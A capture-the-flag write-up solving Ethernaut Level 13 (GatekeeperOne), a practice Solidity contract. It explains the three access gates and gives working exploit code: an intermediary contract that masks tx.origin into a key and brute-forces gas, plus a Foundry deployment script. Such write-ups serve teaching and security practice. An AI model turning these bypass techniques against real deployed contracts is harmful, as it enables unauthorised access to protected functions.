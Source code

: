 # Ethernaut Level 13 GatekeeperOne

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from "forge-std/console.sol";

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

We have to pass three gates to register as an entrant. From `gateOne()` modifier we can see that we have to create a middle layer contract so that `msg.sender` is the middle layer contract which calls the function `enter` while `tx.origin` is our EOA. `gateTwo()` indicates that when calling the function `enter`, gas that left has to be exactly a multiple of 8191. However, we cannot know how much gas will take when calling the function. So we have to somehow *brute force* a value that can meet the requirement.

`gateThree()` contains three requirements regarding `bytes8 _gateKey`. From these requirements, we can know that:

1. The lower 2 bytes of the key must equal the lower 4 bytes of the key. (This means that the third and fourth lower bytes should be all 0)
2. The key must *not* be equal to its lower 4 bytes (so upper bits must not all be zero).
3. The lower 2 bytes must equal the lower 16 bits of tx.origin. 

So we can basically form a key by using a mask like this: `0xFFFFFFFF0000FFFF` (each byte has two byte chars).

`MiddleLayer.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MiddleLayer {
    
    function callEnter(address gatekeeperAddress) public {
        bool success = false;
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i < 300; i++) {
            (success, ) = gatekeeperAddress.call{gas: 8191 * 3 + i}(
                abi.encodeWithSignature("enter(bytes8)", key)
            );
            if (success) {
                break;
            }
        }
        require(success, "call failed");
    }
}
```

To get the key as input, we first transform the address of EOA into `uint160`, and then taking the last 8 bytes to apply it to the mask `0xFFFFFFFF0000FFFF`. Also, in order to make `gasleft()` a multiple of 8191, we can calculate the gas by using a formula `k * 8191 + offset`. The offset shall be the gas used during the calling process. We use a for loop to *brute force* the offset so that we can finally have a successful call.

`GatekeeperOne.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";   
import {GatekeeperOne} from "../src/GatekeeperOne.sol";
import {MiddleLayer} from "../src/MiddleLayer.sol";

contract GatekeeperOneScript is Script {
    GatekeeperOne gatekeeper = GatekeeperOne(0xXXXXXXXXXXXXX);
    MiddleLayer middleLayer;

    function run() external {
        vm.startBroadcast();
        middleLayer = new MiddleLayer();
        middleLayer.callEnter(address(gatekeeper));
        vm.stopBroadcast();
        console.log("Entrant:", gatekeeper.entrant());
    }
}
```

